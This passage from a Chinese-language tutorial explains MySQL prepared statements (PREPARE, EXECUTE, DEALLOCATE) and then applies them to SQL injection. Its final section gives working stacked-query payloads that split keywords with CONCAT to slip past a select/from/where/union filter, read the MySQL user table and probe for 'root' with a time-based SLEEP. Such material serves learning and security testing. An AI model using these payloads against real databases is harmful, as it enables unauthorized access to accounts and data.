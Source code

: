 ```plain
Query OK, 0 rows affected (0.00 sec)

mysql> PREPARE pr2 FROM @select_test;
Query OK, 0 rows affected (0.00 sec)
Statement prepared

mysql> EXECUTE pr2 ;
+------+
| a |
+------+
| 1 |
| 2 |
| 3 |
+------+
3 rows in set (0.00 sec)

mysql> DROP PREPARE pr2; -- 此处DROP可以替代DEALLOCATE
Query OK, 0 rows affected (0.00 sec)
```

每一次执行完EXECUTE时，养成好习惯，须执行DEALLOCATE PREPARE … 语句，这样可以释放执行中使用的所有数据库资源（如游标）。

不仅如此，如果一个session的预处理语句过多，可能会达到max_prepared_stmt_count的上限值。

预处理语句只能在创建者的会话中可以使用，其他会话是无法使用的。

而且在任意方式（正常或非正常）退出会话时，之前定义好的预处理语句将不复存在。

如果在存储过程中使用，如果不在过程中DEALLOCATE掉，在存储过程结束之后，该预处理语句仍然会有效。

# 0x03 例子合集

## 0x03.1 普通注入

好了,通过上面我们就正式入门了,那么如何拿来注入使用呢?

就通过接下来的例子了

例如现在有一个注入点

http://127.0.0.1/xx/user.php?id=1
其中id参数有注入,但是有很强的过滤,过滤了select、from、where、union那么还能正常读数据嘛?

其实还是可以的,如果支持堆叠的话



在例如现在要读取的数据为 SELECT User FROM  user LIMIT 0,1

让我们使用本章节学习到的技能进行变形一下

```plain
// @ab = SELECT User FROM  user LIMIT 0,1变形
set @a:=CONCAT("S", "E", "T ","@ab:=", "(SE","LECT ", "User FR","OM"," user LIM","IT", " 0,1)");
PREPARE stmt FROM @a;
EXECUTE stmt;

// SELECT if(@ab like '%root%',SLEEP(3),1);变形
set @b:=CONCAT("SE", "LE", "CT ", "i", "f(", "@ab ", "li", "ke '%", "root","%'",",","SL", "EE", "P(3),1);");
PREPARE stmt2 FROM @b;
EXECUTE stmt2;
```
